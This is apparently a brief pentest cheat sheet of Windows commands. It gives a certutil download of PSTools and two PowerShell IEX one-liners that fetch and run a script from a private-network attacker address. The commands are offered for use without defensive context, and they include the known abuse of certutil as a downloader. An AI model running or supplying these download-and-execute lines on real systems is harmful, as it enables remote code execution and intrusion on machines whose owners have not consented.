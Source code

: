 # commands
DOS command to download http
`certutil.exe -urlcache -split -f "https://download.sysinternals.com/files/PSTools.zip" pstools.zip`

Powershell command to download and execute script:
`powershell -c "IEX(New-Object Net.WebClient).downloadString('http://192.168.49.213/ouzmetbb.ps1')"`
`IEX(New-Object Net.WebClient).downloadString('http://192.168.49.213/ouzmetbb.ps1')`

